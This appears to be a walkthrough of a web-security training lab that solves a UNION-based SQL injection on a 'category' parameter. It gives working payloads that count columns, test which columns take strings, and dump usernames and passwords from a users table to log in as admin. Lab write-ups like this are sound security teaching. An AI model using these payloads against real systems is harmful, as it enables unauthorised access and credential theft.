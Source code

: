 
### SQL injection UNION attack, retrieving data from other tables : PRACTITIONER

---

The `category` query parameter is vulnerable to SQL injection.
- We will use a `UNION` based attack.

##### 1. Get the number of columns:
```
' UNION SELECT NULL, NULL--
```
- They are 2, as 3 gets an error.

##### 2. Get the data types
```
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'--
```
- We need strings to get usernames and passwords. Both work, hence both are strings.

##### 3. Perform an Injection

Next use this same payload but choose username and password fields from the users table.
```
' UNION SELECT username, password FROM users--
```

![userandpass](./screenshots/adminsql.png)

Now we can login as admin and the lab is complete.

---
